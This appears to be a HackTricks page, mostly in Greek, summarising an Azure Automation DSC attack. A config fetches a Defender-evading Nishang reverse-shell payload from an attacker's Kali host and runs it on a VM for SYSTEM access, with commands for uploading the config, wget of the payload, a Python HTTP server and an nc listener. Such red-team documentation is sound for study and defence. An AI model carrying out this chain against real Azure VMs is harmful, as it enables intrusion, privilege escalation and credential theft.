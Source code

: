 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Η διαδικασία περιλαμβάνει την εγκατάσταση μιας υποδομής απομακρυσμένου διακομιστή για τη φιλοξενία ενός τροποποιημένου payload `Invoke-PowerShellTcp.ps1` του Nishang, ονόματι `RevPS.ps1`, σχεδιασμένο να παρακάμπτει το Windows Defender. Το payload εξυπηρετείται από μια μηχανή Kali Linux με IP `40.84.7.74` χρησιμοποιώντας έναν απλό Python HTTP server. Η λειτουργία εκτελείται μέσω αρκετών βημάτων:

#### Step 1 — Create Files

* **Files Required:** Απαιτούνται δύο σενάρια PowerShell:
1. `reverse_shell_config.ps1`: Ένα αρχείο Desired State Configuration (DSC) που ανακτά και εκτελεί το payload. Είναι διαθέσιμο από το [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Ένα σενάριο για τη δημοσίευση της διαμόρφωσης στη VM, διαθέσιμο στο [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Οι μεταβλητές και οι παράμετροι σε αυτά τα αρχεία πρέπει να προσαρμοστούν στο συγκεκριμένο περιβάλλον του χρήστη, συμπεριλαμβανομένων των ονομάτων πόρων, των διαδρομών αρχείων και των αναγνωριστικών διακομιστή/payload.

#### Step 2 — Zip Configuration File

* Το `reverse_shell_config.ps1` συμπιέζεται σε ένα αρχείο `.zip`, καθιστώντας το έτοιμο για μεταφορά στον Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Set Storage Context & Upload

* Το συμπιεσμένο αρχείο ρύθμισης μεταφορτώνεται σε ένα προκαθορισμένο Azure Storage container, azure-pentest, χρησιμοποιώντας το Azure's Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Βήμα 4 — Προετοιμασία του Kali Box

* Ο διακομιστής Kali κατεβάζει το φορτίο RevPS.ps1 από ένα αποθετήριο GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Το σενάριο επεξεργάζεται για να καθορίσει το στοχευμένο Windows VM και την πόρτα για το reverse shell.

#### Βήμα 5 — Δημοσίευση Αρχείου Ρυθμίσεων

* Το αρχείο ρυθμίσεων εκτελείται, με αποτέλεσμα το σενάριο reverse-shell να αναπτυχθεί στην καθορισμένη τοποθεσία στο Windows VM.

#### Βήμα 6 — Φιλοξενία Payload και Ρύθμιση Listener

* Ένας Python SimpleHTTPServer ξεκινά για να φιλοξενήσει το payload, μαζί με έναν Netcat listener για να καταγράψει τις εισερχόμενες συνδέσεις.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Η προγραμματισμένη εργασία εκτελεί το payload, επιτυγχάνοντας δικαιώματα επιπέδου SYSTEM.

#### Συμπέρασμα

Η επιτυχής εκτέλεση αυτής της διαδικασίας ανοίγει πολλές δυνατότητες για περαιτέρω ενέργειες, όπως η εξαγωγή διαπιστευτηρίων ή η επέκταση της επίθεσης σε πολλές VM. Ο οδηγός ενθαρρύνει τη συνεχιζόμενη μάθηση και τη δημιουργικότητα στον τομέα του Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
